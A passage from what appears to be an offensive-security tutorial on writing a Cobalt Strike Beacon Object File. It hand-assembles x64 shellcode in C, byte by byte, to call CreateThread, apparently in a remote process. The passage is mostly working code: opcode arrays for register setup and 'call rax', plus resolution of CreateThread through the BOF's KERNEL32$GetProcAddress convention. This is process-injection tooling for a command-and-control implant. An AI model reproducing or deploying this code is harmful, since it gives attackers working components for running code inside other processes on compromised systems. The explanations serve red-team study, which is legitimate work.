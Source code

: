 The last two parameters, `dwCreationFlags` and `lpThreadId` will be located at an offset of `0x20` and `0x28`, respectively, from RSP. Since R9 already contains a value of 0, and since both parameters need a value of 0, we can use to `mov` instructions, as such.

```c
// mov [rsp+20h], r9 (which already contains 0)
createThread[z++] = 0x4c;
createThread[z++] = 0x89;
createThread[z++] = 0x4c;
createThread[z++] = 0x24;
createThread[z++] = 0x20;

// mov [rsp+28h], r9 (which already contains 0)
createThread[z++] = 0x4c;
createThread[z++] = 0x89;
createThread[z++] = 0x4c;
createThread[z++] = 0x24;
createThread[z++] = 0x28;
```

A quick note - notice that the brackets surrounding each `[rsp+OFFSET]` operand indicate we would like to overwrite what that value is pointing to. 

The next goal is to resolve the address of `CreateThread`. Even though we will be resolving this address within the BOF, meaning it will be resolved within the current process, not the desired remote process, the address of `CreateThread` will be the same across processes, although each user mode process is mapped its own view of `kernel32.dll`. To resolve this address, we will use the following routine, with BOF denotations in our code.

```c
// Resolve the address of CreateThread
unsigned long long createthreadAddress = KERNEL32$GetProcAddress(KERNEL32$GetModuleHandleA("kernel32"), "CreateThread");

// Error handling
if (createthreadAddress == NULL)
{
	BeaconPrintf(CALLBACK_ERROR, "Error! Unable to resolve CreateThread. Error: 0x%lx\n", KERNEL32$GetLastError());
}
```

The `unsigned long long` variable `createthreadAddress` will be filled with the address of `CreateThread`. `unsigned long long` is a 64-bit value, which is the size of a memory address on a 64-bit address. Although `KERNEL32$GetProcAddress` has a prototype with a return value of `FARPROC`, we need the address to actually be of the type `unsigned long long`, `DWORD64`, or similar, to allow us to properly copy this address into the routine with `mycopy`. The next goal is to move the address of `CreateThread` into RAX. After this, we will perform a `call rax` instruction, which will kick off the routine. This can be seen below.

```c
// mov rax, CreateThread
createThread[z++] = 0x48;
createThread[z++] = 0xb8;
mycopy(createThread + z, &createthreadAddress, sizeof(createthreadAddress));
z += sizeof(createthreadAddress);

// call rax (call CreateThread)
createThread[z++] = 0xff;
createThread[z++] = 0xd0;
```
